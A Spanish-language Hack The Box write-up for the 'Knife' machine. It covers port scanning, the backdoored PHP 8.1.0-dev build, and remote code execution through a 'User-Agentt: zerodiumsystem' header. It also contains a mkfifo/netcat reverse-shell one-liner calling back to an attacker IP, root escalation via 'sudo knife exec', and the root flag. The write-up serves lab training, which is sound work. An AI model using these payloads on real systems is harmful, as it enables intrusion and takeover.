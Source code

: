 ```yaml
---
title: HackTheBox - Knife
categories: [Linux]
tags: [HackTheBox]
---
```


<img src="/assets/HTB/Knife/knife.png">

En este post voy a explicar como resolver la máquina Knife de [Hack The Box](https://app.hackthebox.com/machines/347), en la cual vamos a estar tocando un Remote Code Execution mediante la cabezera ```User-Agent``` y luego para la escalada utilizaremos los permisos de la herramienta ```Knife```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH) y 80 (HTTP) abiertos.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Knife/knife-pagina.png">

Si usamos la herramienta whatweb la cual sirve para recopilar información sobre una aplicación web, vemos que se está utilizando PHP/8.1.0-dev.


```
$ whatweb http://10.10.10.242/

Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], PHP[8.1.0-dev], Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

El problema que hay con esta versión, es que es vulnerable a un Remote Code Execution, ya que un atacante puede ejecutar comandos usando la siguiente cabecera ```User-Agentt: zerodiumsystem("cat /etc/passwd");```

# Reverse Shell
Para ganar acceso a la máquina, nos mandaremos una Reverse Shell explotando la vulnerabilidad anteriormente encontrada.

```
$ curl 10.10.10.242 -H 'User-Agentt: zerodiumsystem("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.3 443 >/tmp/f");'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.242] 52680
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

# Enumeración del sistema

Una vez ganado acceso a la máquina, vemos que somos el usuario ```james```, si hacemos un sudo -l podemos ver que tenemos permiso para ejecutar el programa ```knife``` como ```root``` sin proporcionar contraseña.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

# Escalada de privilegios
Knife tiene un parámetro llamado exec, el cual permite la ejecución de scripts Ruby, les dejaré un ejemplo.

```
$ knife exec -E 'exec "/ruta/del/script"'
```

Sabiendo esto, podemos hacer que el usuario root ejecuta /bin/bash.

```
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
root@knife:/home/james# cd
root@knife:/# cat root.txt
126f179b57e1f6d63efc96636a914e6f
```